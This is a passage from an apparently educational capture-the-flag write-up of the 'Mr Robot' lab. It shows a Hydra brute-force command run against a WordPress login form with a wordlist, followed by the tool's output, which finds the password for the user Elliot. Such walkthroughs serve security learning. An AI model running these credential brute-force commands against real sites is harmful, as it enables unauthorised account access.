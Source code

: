 After a few seconds we find Elliot is the login name. Now repeat using that to hopefully find the password:

![burp-password](/assets/images/2020-05-26-21-46-06.png)

Modify Hydra to use the dic file on the password now we have username:

```text
root@kali:~/thm/mrrobot# hydra -L Elliot -P fsociety.dic 10.10.23.78 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.23.78%2Fwp-admin%2F&testcookie=1:S=302"
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-25 22:13:44
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858236 login tries (l:1/p:858236), ~53640 tries per task
[DATA] attacking http-post-form://10.10.23.78:80/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.23.78%2Fwp-admin%2F&testcookie=1:S=302
[80][http-post-form] host: 10.10.23.78   login: Elliot   password: <<HIDDEN>>
```

We find the password from the file, now we can log in:

![wp-admin](/assets/images/2020-05-26-21-47-10.png)
